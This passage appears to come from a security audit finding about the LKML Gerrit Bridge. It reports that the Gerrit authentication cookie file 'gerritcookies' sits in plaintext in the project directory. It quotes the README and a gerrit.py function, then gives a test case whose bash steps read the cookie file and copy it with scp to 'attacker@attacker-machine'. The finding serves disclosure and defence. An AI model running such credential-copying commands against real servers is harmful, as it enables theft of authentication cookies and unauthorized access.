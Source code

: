    NOTE: YOU MUST ADD A COMMENT TO THE TOP OF THE COOKIE FILE: `# HTTP Cookie File`
    ```
    - This section of the README instructs users to create and name the cookie file as `gerritcookies` in the project directory, clearly indicating the intended insecure storage method.

    - **File: `/code/src/gerrit.py`**
    ```python
    def get_gerrit_rest_api(cookie_jar_path: str, gerrit_url: str) -> GerritRestAPI:
        cookie_jar = MozillaCookieJar(cookie_jar_path)
        cookie_jar.load()
        auth = HTTPCookieAuth(cookie_jar)
        rest = GerritRestAPI(url=gerrit_url, auth=auth)
        return rest
    ```
    - The `get_gerrit_rest_api` function in `gerrit.py` directly loads cookies from the file path provided by `cookie_jar_path`, which is set to `gerritcookies` in `main.py`.
    - `MozillaCookieJar` is used to load cookies from the specified file, confirming that the application directly reads and uses the `gerritcookies` file for Gerrit authentication.

* Security Test Case:
    1. **Prerequisites:**
        - A running instance of the LKML Gerrit Bridge, configured with a `gerritcookies` file.
        - Attacker access to the server's filesystem (e.g., via SSH if credentials are known, or by exploiting another vulnerability to gain shell access).
    2. **Steps:**
        ```bash
        # Attacker gains access to the server (example: via SSH)
        ssh attacker@vulnerable-server

        # Navigate to the project directory where gerritcookies is likely located (assuming known project path or through reconnaissance)
        cd /path/to/lkml-gerrit-bridge/code/

        # List files to locate gerritcookies
        ls -l

        # Copy the gerritcookies file to attacker's controlled machine (example using scp)
        scp gerritcookies attacker@attacker-machine:/tmp/

        # Alternatively, simply read the content of the gerritcookies file on the compromised server
        cat gerritcookies
        ```
    3. **Expected Result:**
        - The attacker is able to locate and copy or read the `gerritcookies` file from the server's filesystem.
        - By using the stolen `gerritcookies` file, the attacker can authenticate to the Gerrit instance outside of the bridge application (e.g., using `curl` with the cookies or by setting up a local Gerrit client with these cookies).
        - This demonstrates that the insecure storage of `gerritcookies` allows for credential theft and unauthorized Gerrit access upon server compromise.